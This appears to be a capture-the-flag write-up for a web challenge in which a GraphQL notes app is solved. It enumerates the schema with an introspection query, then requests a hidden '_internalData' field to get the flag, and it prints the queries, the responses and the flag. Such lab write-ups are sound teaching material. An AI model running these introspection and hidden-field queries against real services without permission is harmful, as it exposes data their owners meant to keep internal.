


# The Restricted Section

**Description**: The Hogwarts library conceals forbidden knowledge. Unravel its hidden structure to reveal the secrets within. Do you dare?

**Link**: `https://notes.kjsse.com/`

## Solution

This just looks like a regular notes app, giving output according to the note ID.

<figure></figure>

Looking at the request structure, The backend is running on graphql.

<figure></figure>

On enumerating the the `schema` we get the following response.

`query={__schema{types{name,fields{name}}}}`

Response:

```json
{
  "data": {
    "__schema": {
      "types": [
        {
          "name": "Note",
          "fields": [
            { "name": "id" },
            { "name": "content" },
            { "name": "_internalData" }
          ]
        },
        { "name": "ID", "fields": null },
        { "name": "String", "fields": null },
        {
          "name": "Query",
          "fields": [
            { "name": "noteById" },
            { "name": "allNotes" },
            { "name": "_getFlag" }
          ]
        },
        { "name": "Boolean", "fields": null },
        {
          "name": "__Schema",
          "fields": [
            { "name": "description" },
            { "name": "types" },
            { "name": "queryType" },
            { "name": "mutationType" },
            { "name": "subscriptionType" },
            { "name": "directives" }
          ]
        },
        {
          "name": "__Type",
          "fields": [
            { "name": "kind" },
            { "name": "name" },
            { "name": "description" },
            { "name": "specifiedByURL" },
            { "name": "fields" },
            { "name": "interfaces" },
            { "name": "possibleTypes" },
            { "name": "enumValues" },
            { "name": "inputFields" },
            { "name": "ofType" },
            { "name": "isOneOf" }
          ]
        },
        { "name": "__TypeKind", "fields": null },
        {
          "name": "__Field",
          "fields": [
            { "name": "name" },
            { "name": "description" },
            { "name": "args" },
            { "name": "type" },
            { "name": "isDeprecated" },
            { "name": "deprecationReason" }
          ]
        },
        {
          "name": "__InputValue",
          "fields": [
            { "name": "name" },
            { "name": "description" },
            { "name": "type" },
            { "name": "defaultValue" },
            { "name": "isDeprecated" },
            { "name": "deprecationReason" }
          ]
        },
        {
          "name": "__EnumValue",
          "fields": [
            { "name": "name" },
            { "name": "description" },
            { "name": "isDeprecated" },
            { "name": "deprecationReason" }
          ]
        },
        {
          "name": "__Directive",
          "fields": [
            { "name": "name" },
            { "name": "description" },
            { "name": "isRepeatable" },
            { "name": "locations" },
            { "name": "args" }
          ]
        },
        { "name": "__DirectiveLocation", "fields": null }
      ]
    }
  }
}
```

The interesting field over here is `_internalData`.
`query { noteById(id: \"1\") { id content _internalData } }`

We get the following response.

```json
{
  "data": {
    "noteById": {
      "id": "1",
      "content": "This is note 1.",
      "_internalData": "KJSSE_CTF{gr4phq1_qu3ry_f0r_1h3_w1n!}"
    }
  }
}
```

## Flag

```
KJSSE_CTF{gr4phq1_qu3ry_f0r_1h3_w1n!}
```
